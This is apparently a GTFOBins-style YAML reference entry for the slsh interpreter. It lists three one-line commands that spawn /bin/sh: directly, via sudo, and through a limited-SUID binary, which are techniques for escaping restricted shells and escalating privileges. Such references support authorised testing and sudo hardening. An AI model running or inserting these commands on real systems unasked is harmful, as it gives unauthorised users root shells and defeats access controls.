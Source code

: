 functions:
  shell:
    - code: slsh -e 'system("/bin/sh")'
  sudo:
    - code: sudo slsh -e 'system("/bin/sh")'
  limited-suid:
    - code: ./slsh -e 'system("/bin/sh")'
---
